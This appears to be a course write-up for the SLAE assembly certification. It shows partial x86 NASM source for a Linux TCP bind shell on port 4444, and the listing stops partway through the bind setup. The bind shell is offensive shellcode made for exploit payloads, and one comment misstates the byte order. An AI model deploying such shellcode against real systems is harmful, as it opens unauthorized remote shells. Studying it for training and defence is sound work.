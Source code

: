 ### Full Source
**[ASM source on Github](https://github.com/fbcsec/slae-assignments/blob/master/1-tcp-bind-shell/tcp-bind-shell.asm)**

```nasm
; Simple x86 Linux TCP Bind Shell
; Author: @fbcsec
; This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
; http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
; Student ID: SLAE - 1187

global _start

section .text

_start:

; Set the stage - Zero EAX, EBX, and EDX
    xor ebx, ebx
    mul ebx         ; MUL stores high order bits in EDX and low order bits in EAX.
                    ; so by MULing with a register that's already zero, we zero EAX and EDX.

; socket(AF_INET, SOCK_STREAM, 0)
; Get an initial file descriptor (fd) to use for further network calls.
    push eax ; socket int protocol (0x00)
    inc ebx  ; socketcall int call (0x01)
    push ebx ; socket type (SOCK_STREAM (0x01))
    push byte 0x02  ; socket domain (AF_INET (0x02))
    mov ecx, esp    ; move pointer to socket arguments into ecx
    mov al, 0x66    ; socketcall syscall id
    int 0x80        ; fire syscall
; A file descriptor for this socket is returned in EAX.

; bind(FD, *sockaddr, addrlen (0x10))
; Bind to a port number using the socket we've created so we can listen for connections.

    pop edi             ; EDI is now 0x02
    xchg edi, eax       ; sockfd is now in edi
    xchg ebx, eax       ; EAX now contains 0x00000002 (all but al is zero)
    mov al, 0x66        ; EAX now contains 0x00000066
                        ; This block is because we can't predict the file descriptor returned in EAX and must ensure all of EAX's bytes higher than AL are zeroed.

; build sockaddr struct on stack
; sockaddr's format: {word family (AF_INET), word port, dword ip address}
; IP and port number must be in network byte (big endian) order.
; I.E., port 4444 is 0x5c11 normally, in network byte order it's 0x5c11.

    push edx            ; push ip address to bind to (0x00000000 for all addresses (or INADDR_ANY)

; Writing the port number into our struct can be tricky.
; If the hex for our port number contains a NUL (0x00) we need to alter the code to avoid this NUL.
; If the port number to bind to contains no NULs we can simply do this:
    push word 0x5c11 ; PUSH '4444' in network byte order.

; If we want to bind to a port below 256 we'll need to use an empty register to build the numb
;(this is inadvisable, only root can bind to addresses under 1024)
    ;add dh, 0x05        ; Set up port number in network byte order in a register...
    ;push word dx        ; and then PUSH it
    ;xor edx, edx        ; zero EDX again

```